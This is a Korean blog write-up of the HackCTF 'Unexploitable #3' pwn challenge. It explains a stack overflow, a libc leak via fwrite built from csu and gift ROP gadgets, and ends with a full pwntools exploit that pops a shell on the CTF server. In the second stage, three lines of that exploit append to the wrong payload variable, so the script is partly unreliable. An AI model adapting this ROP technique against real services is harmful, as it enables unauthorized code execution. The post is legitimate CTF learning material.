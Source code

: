 ```yaml
---
layout: post
title:  "HacCTF Unexploitable #3 write-up"
date:   2020-03-21 19:45:55
image:  hackctf_unex3.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] Unexploitable #3

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled.png)

NX비트말곤 딱히 걸려있는게 없다.


**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%201.png)

Unexploitable 의 3번째 문제로서 동일한게 한번 입력을 받고 종료된다.


**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%202.png)

메인을 보면, fwrite와 fgets 가 끝이다. fwrite를 이용하여 libc leak을 하면 될 것이다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%203.png)

또한 gift 라는 함수가 있는데 fwrite함수가 있다. 어셈블리로보면

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%204.png)

요렇게 되어있다. 어떻게 사용하면 될지 일단 차차 생각해보자.



### 2. 접근방법

---

fgets로 충분히 리턴주소를 덮을수 있다. 그렇다면 fwrite를 이용해 leak을 일으킬라면 4개의 인자를 처리할 수 있는 가젯이 필요하다. 하지만 역시 그런 이쁜 가젯은 현재 존재하지 않는다.

현재 csu_ini 함수가 존재하는데, 이를 이용한다고 쳐도 3개의 인자만 처리가능 할 뿐, 나머지 하나인 rdx 관련 인자를 처리불가능하다. 그럼 혹시 아까 gift 함수를 괜히 준게 아닐꺼 같다는 생각이든다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%204.png)

0x400658 주소를 보면 mov rcx, [rdi] 가 있다. 이부분을 이용하여 rcx를 이용하면 될 것이다.

현재 가젯에 pop rdi; ret; 는 존재하기 때문에 먼저 rdi에 원하는 값을 넣고, gitf 함수의 가젯을 이용하면 rcx에 아까 넣어둔 rdi 값이 들어갈 것이다.


- **첫번째 시나리오**
    1. pop rbp; ret; 를 이용해서 .bss 영역에 /bin/sh 저장하기
    2. libc 주소 leak을 해야함 => fwrite() 함수이용할것임
    2.1 RTC 를 이용해서 rdi, rsi, rdx 레지스터에 3개 인자를 넣고
    2.2 마지막 RTC의 ret를 pop rdi;ret로 다시 가게함 => 여기서 rdi에 rcx에 넣을 값 다시 저장
    2.3 gift함수의 mov rcx, [rdi];ret; 를 이용해서 rcx(stdout) 저장
    2.4 이를 이용하여 fgets 주소 leak하기
    3. leak된 주소를 이용하여 libc_base 주소를 구하고 ROP 진행

기존에 Unexploitable 2 에서 진행했던 방법대로 처음에 진행을 했었다. 하지만 어떤 이유인지 자꾸 에러가 발생하여서 디버깅을 통해 확인을 해보았다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%205.png)

pop rbp; ret; 를 이용하여 bss 영역에 "/bin/sh" 문자열을 잘 저장하였고 gift함수의 가젯을 이용하여 rcx에 stdout_got 주소를 잘 저장하였다. 따라서 총 4개의 인자를 처리할 수 있는 세팅이 완료됬고, csu의 " call [r12 + rbx*8] "이 진행되어 원래대로라면 fwrite함수가 호출되어 fgets의 주소가 leak되야 한다.

하지만 현재 rcx에 stdout_got가 들어가 있긴 하지만, "pop rbp;ret;" 가 진행되고 setvbuf, fwrite, 함수를 건너뛰고 바로 main+98로 다시 갔기 때문에 stdout이 한번도 사용되지 않아 got에 실 주소가 들어가있지 않고 위 사진처럼 0x400743주소가 들어가 있다.

따라서 " call [r12 + rbx*8] " 이 실행됬을 때 에러가 나는 것이다. 결국 다른 시나리오를 이용해야한다.

- **두번째 시나리오**
    1. 바로 libc 주소 leak하기
        - 첫번째 ROP를 진행할때는 이미 위에 setvbuf와 fwrite가 실행된 상태이므로 stdout_got에 실제 주소가 들어가 있음. 따라서 csu가젯과 gift 가젯을 이용하여 rcx에 stdout_got주소를 첫번째 시나리오와 동일하게 삽입하면 됨
        - 그런뒤 다시 main으로 ret하게 만듬
    2. fgets를 이용하여 bss영역에 /bin/sh 삽입
    3. pop rdi;ret 가젯을 이용하여 /bin/sh 문자열이 존재하는 bss 영역을 rdi에 저장하고 system함수 호출

두번째 시나리오대로 코드를 짜면 정상적으로 쉘이 떨어진다.



### 3. 풀이

---

최종익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3034)
    #p=process("./Unexploitable_3")
    e=ELF("./Unexploitable_3")
    #gdb.attach(p)
    
    bss=0x601038
    
    gadget_1=0x40073A # pop rbx,rbp,r12,r13,r14,r15,ret;
    gadget_2=0x400720 # mov rdx,r13; mov rsi,r14; mov esi,r15d; call [r12+rbx*8]; add rbx,1; cmp rbx,rbp 
    gadget_3=0x400658 # mov rcx,[rdi]; ret;
    gadget_4=0x400743 # pop rdi; ret;
    
    p.recvuntil("you!\n")
    
    payload2 = "A"*0x18
    payload2 += p64(gadget_4)
    payload2 += p64(0x601050) # for rcx
    payload2 += p64(gadget_3)
    payload2 += p64(gadget_1)
    payload2 += p64(0) # rbx
    payload2 += p64(1) # rbp
    payload2 += p64(e.got['fwrite']) # r12
    payload2 += p64(6) # r13
    payload2 += p64(1) # r14
    payload2 += p64(e.got['fwrite']) # r15
    payload2 += p64(gadget_2)
    payload2 += p64(0)
    payload2 += p64(0) #rbx
    payload2 += p64(1) #rbp
    payload2 += p64(0) #r12
    payload2 += p64(0) #r13
    payload2 += p64(0)  #r14
    payload2 += p64(0) #r15
    payload2 += p64(0x40065f)
    pause()
    p.sendline(payload2)
    
    fwrite_addr=u64(p.recv(6)+"\x00\x00")
    log.info(hex(fwrite_addr))
    libc_base=fwrite_addr-0x06e6e0
    
    payload3 = "A"*0x18
    payload2 += p64(gadget_4)
    payload2 += p64(0x601060) # for rcx
    payload2 += p64(gadget_3)
    payload3 += p64(gadget_1)
    payload3 += p64(0) # rbx
    payload3 += p64(1) # rbp
    payload3 += p64(e.got['fgets']) # r12
    payload3 += p64(libc_base+0x3c48e0) # r13
    payload3 += p64(8) # r14
    payload3 += p64(bss) # r15
    payload3 += p64(gadget_2)
    payload3 += p64(0)
    payload3 += p64(0) #rbx
    payload3 += p64(1) #rbp
    payload3 += p64(0) #r12
    payload3 += p64(0) #r13
    payload3 += p64(0) #r14
    payload3 += p64(0) #r15
    payload3 += p64(gadget_4)
    payload3 += p64(bss)
    payload3 += p64(libc_base+0x045390)
    
    p.recvuntil("you!\n")
    p.sendline(payload3)
    p.send("/bin/sh\x00")
    p.interactive()



### 4. 몰랐던 개념

---

방법은 알았지만, stdout_got 때문에 삽질을 꽤 오래했다. stdout, stdin도 libc에 wrapping되어있는 함수인것을 이제 알았다. 따라서 해당 함수들도 plt와 got가 존재한다.